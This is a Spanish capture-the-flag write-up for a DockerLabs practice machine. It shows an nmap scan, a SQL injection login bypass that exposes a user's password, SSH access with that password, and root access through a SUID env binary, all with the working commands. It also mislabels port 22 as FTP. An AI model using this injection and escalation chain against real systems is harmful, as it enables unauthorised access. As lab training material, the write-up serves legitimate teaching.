

Write Up Injection
Dificultad: Super fácil
Enlace a dockerlabs: https://dockerlabs.es/
Configuración del entorno
Primero de todo desplegamos la máquina mediante el script que viene al descargar la máquina
❯ sudo ./auto_deploy.sh injection.tar
Estamos desplegando la máquina vulnerable, espere un momento.
Máquina desplegada, su dirección IP es -→ 172.17.0.2
Presiona Ctrl+C cuando termines con la máquina para eliminarla
Una vez desplegada, creamos la carpeta injection, nos metemos dentro y usamos la utilidad mkt que nos crea las carpetas nmap, content, exploits y scripts.
❯ mkdir injection-dockerlabs
❯ cd injection-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 content
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 exploits
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 nmap
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 scripts
Reconocimiento
Lo primero que realizamos es un reconocimiento general con nmap sobre la máquina víctima, para obtener los puertos abiertos.
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 64
80/tcp open http syn-ack ttl 64
Una vez obtenemos los puertos abiertos, realizamos un escaneo mas exhaustivo mediante scripts de reconocimiento para obtener los servicios de cada puerto y la versión en la que corren
❯ extractPorts allPorts
[*] Extracting information...
[*] IP Address: 172.17.0.2
[*] Open ports: 22,80
[*] Ports copied to clipboard
❯ nmap -sCV -p22,80 172.17.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-15 17:09 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000051s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_ 256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open http Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.31 seconds
De esta manera descubrimos que el servicio que está corriendo en el puerto 22 (puerto FTP) es el OpenSSH 8.9p1 y en el puerto 80 (puerto http) está corriendo un servicio web Apache httpd 2.4.52.
Explotación
Como hemos visto que hay un servicio web corriendo en la máquina víctima procedemos a ver la web, añadiendo el dominio (en este caso no tiene y simplemente pondremos el nombre de la máquina) al archivo /etc/hosts de nuestra máquina virtual (es el archivo de configuración de DNS local).
❯ sudo vi /etc/hosts
❯ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 kali
172.17.0.2 injection
# The following lines are desirable for IPv6 capable hosts
::1 localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
Una vez configurado el archivo /etc/hosts procedemos a acceder a la página web, y vemos que es un formulario de login.

Probamos a introducir los parámetros básicos para comprobar si hay inyección SQL. Para ello hay que introducir la cadena admin' OR '1' = '1'; -- en el apartado de usuario y cualquier cosa en password (en mi caso he puesto hacked!) para que deje enviar el formulario, y si todo va bien, podremos entrar siendo los administradores (si no va con el usuario admin se puede ir cambiando a root, administrator, y cosas parecidas, pero sin perder mucho el tiempo).
User: admin' OR '1' = '1'; --
Password: hacked!
Y bingo! Estamos dentro y obtenemos las credenciales de el usuario Dylan
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
Al haber obtenido esas credenciales, podemos probar a acceder mediante el puerto ssh también abierto.
ssh dylan@injection
dylan@injection's password: (aquí ponemos el password)
dylan@6b329dffcb35:~$
Y ya tenemos acceso a la máquina!
Escalada de privilegios
Para poder utilizar la consola de una manera mas cómoda podemos hacer el siguiente tratamiento de la terminal:
script /dev/null -c bash
stty raw -echo; fg
reset xterm
export TERM=xterm
Ahora que tenemos una terminal buscamos archivos (a poder ser binarios) con usuario root y el flag setuid activo y encontramos los siguientes:
dylan@6b329dffcb35:/bin$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/su
/usr/bin/env
/usr/bin/chsh
Así que usamos el comando env de la siguiente forma y elevamos privilegios a root
dylan@6b329dffcb35:/bin$ ./env /bin/sh -p
# whoami
root
#
Lecciones vistas
- Escaneos con nmap
- Inyección SQL simple
- Busqueda de binarios con setuid activo
- Escalada de privilegios con env